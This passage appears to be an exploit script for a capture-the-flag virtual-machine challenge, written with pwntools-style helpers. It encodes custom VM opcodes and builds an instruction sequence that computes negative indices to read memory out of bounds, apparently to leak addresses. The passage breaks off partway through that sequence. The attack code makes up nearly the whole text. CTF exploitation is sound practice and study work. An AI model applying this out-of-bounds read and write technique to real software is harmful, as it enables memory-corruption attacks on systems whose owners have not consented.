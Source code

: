 ```

    ctx.symbols = `{`
        'comment':0x202040,
        'memory':0x202060,
        'reg':0x242060,
        'stack':0x2420a0,  #0x18eea0
    `}`

    ctx.breakpoints = [0xCF9]

    #reg[a3] = reg[a2] &lt;&lt; reg[a1]
    def shift_l(a3,a2,a1):
        return u32((p8(0xc0)+p8(a3)+p8(a2)+p8(a1))[::-1])

    #reg[a3] = reg[a2] + reg[a1]
    def add(a3,a2,a1):
        return u32((p8(0x70)+p8(a3)+p8(a2)+p8(a1))[::-1])

    #reg[dst] = memory[reg[idx]]
    def read(dst,idx):
        return u32((p8(0x30)+p8(dst)+p8(0)+p8(idx))[::-1])

    #memory[reg[idx]] = reg[src]
    def write(src,idx):
        return u32((p8(0x40)+p8(src)+p8(0)+p8(idx))[::-1])

    #reg[dst] = num
    def set(dst,num):
        return u32((p8(0x10)+p8(dst)+p8(0)+p8(num))[::-1])

    def init(pc,sp,content):
        sla('PC',pc)
        sla('SP',sp)
        sla('SIZE',len(content))
        for i in content:
            #sleep(0.1)
            sl(str(i))

    def lg(s,addr):
        print('33[1;31;40m%20s--&gt;0x%x33[0m'%(s,addr))

    rs()

    dbg()
    layout = [
        set(0,8),
        set(1,0xff),
        set(2,0xff),
        shift_l(2,2,0),
        add(2,2,1),
        shift_l(2,2,0),#0xffff00
        add(2,2,1),#0xffffff
        shift_l(2,2,0),
        set(1,0xc8),
        add(2,2,1),#0xffffffc8 = -56
        read(5,2),#reg[5] = memory[-56]
        set(1,1),
        add(2,2,1),#0xffffffc9 = -55
        read(6,2),#reg[6] = memory[-55]
        set(1,0x10),
        shift_l(1,1,0),
        set(0,0x90),
        add(1,1,0),
```